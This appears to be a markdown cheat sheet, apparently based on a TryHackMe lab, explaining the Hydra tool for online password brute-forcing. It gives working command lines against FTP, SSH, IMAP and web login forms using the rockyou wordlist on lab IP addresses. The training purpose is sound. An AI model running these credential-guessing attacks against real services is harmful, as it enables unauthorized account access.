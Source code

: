 ### Hydra User Guide
- All credit goes to: DarkStar7471 for his THM room located here : https://tryhackme.com/room/hydra

- Hydra is a brute force online password cracking tool, which can be used with a variety of protocols
- Protocols that hydra can work with:
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, 
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, 
POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, 
VMware-Auth, VNC and XMPP.
- Official kali page:
- https://en.kali.tools/?p=220
- Download it (default on kali):
- https://github.com/vanhauser-thc/thc-hydra
#### Hydra Syntax
- The correct hydra syntax is depended upon the service you are going after.  For example if we want to hit ftp we should use:
#### FTP
````
hydra -l user -P passlist.txt ftp://10.10.10.10
````
#### SSH
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
````
- `-l` is to specify the username 
- `P` is to specify a password list
- `-t` is to specify the number of threads to run hydra with.
- Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.
#### POST Web Form
- Hydra can be used to brute force web logins as well.
- Step 1: Determine the request made to the form (POST/GET)
- Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
- Syntax:
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
````
- `http-post-form` specifies the type of form
- `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
- `:username` the form field name for the username
- `^USER^` this tells hydra to use the username you specified
- `password` the form field name for the password
- `^PASS^` the password list specified in the command 
- `Login` the failed login message
- `Login failed` is the login failure message that the form specifies 
- `F=inncorrect` the word that appears on the page if the login fails
- `-vV` specifies very verbose output 
- Hydra non default ssh port:
````
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
````
#### Example Syntax
````
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
hydra -l lazie -P /opt/rockyou.txt imap://10.10.251.142 -vV
````











